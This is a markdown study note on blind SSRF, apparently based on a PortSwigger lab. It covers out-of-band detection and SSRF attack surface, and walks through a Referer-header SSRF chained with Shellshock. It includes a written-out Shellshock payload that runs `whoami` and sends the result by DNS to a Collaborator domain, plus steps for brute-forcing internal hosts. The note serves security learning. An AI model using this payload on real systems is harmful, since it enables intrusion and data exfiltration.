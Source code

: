# blind SSRF
- it arise when application can be induced to issue a back-end HTTP request to supplied URL, but the Request from the Back-end request is not returned to front-end application.
- it is harder to exploit but it can lead to full `RCE`.

## Impact
- impact is lower than fully informed SSRF because of their one-way nature. but in some situation it exploited to achieve `RCE`

## How to Find and Exploit Blind SSRF
- the most of the way to detect Blind SSRF is Using `Out of band (OAST)` technique. that trigger HTTP request to external system That we control.
- we can also use `Burp Collaborator`.
- simply identifying Blind SSRF trigger Out-of-band HTTP request doesn't provide route to exploitability. since we can not view the response from the back-end request.
- some Blind SSRF can be found in `Referer: `header in the http Request.

## Blind SSRF with ShellShock exploitation.
-   In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
-   Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
-   Browse the site.
-   Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
-   Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
-   Send the request to the product page to Burp Intruder.
-   Use `Burp Collaborator client` to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload: `() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net`
-   Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
- change the `Referer: ` header to `http://192.168.0.221` here `SSRF` vulnerability is in `Referer:` header and there is some internal system that doesn't directly to outer network.
-   we request to that internal systems `http://internal-ip ` and brute force it to find which system is active and use `shell shock` vulnerability to exploit it to `RCE`.
-   go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind `SSRF attack`. The name of the OS user should appear within the DNS subdomain.
 
## [research Paper : cracking the lens: Remote client exploits](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient)

## Finding Attack surface for SSRF 
### Partial URLs in requests
- some times an application place only a hostname or part of the url path in to a request parameter. 
- the value submitted is than incorporated server-side into a full URL that is requested. 
- exploitability is limited since we don't have control of full URL

### URLs within Data formats
- Some applications transmit data in formats whose specification allows the inclusion of URLs that might get requested by the data parser for the format.
- example of this is the XML data format, which has been widely used in web applications to transmit structured data from the client to the server.
- when application takes data in `XML `this might be vulnerable to `XXE Injection`

### SSRF via Referer Header
- Some applications employ server-side analytics software that tracks visitors.
- This software often logs the Referer header in requests, since this is of particular interest for tracking incoming links.
- Often the analytics software will actually visit any third-party URL that appears in the Referer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the Referer header often represents fruitful attack surface for SSRF vulnerabilities.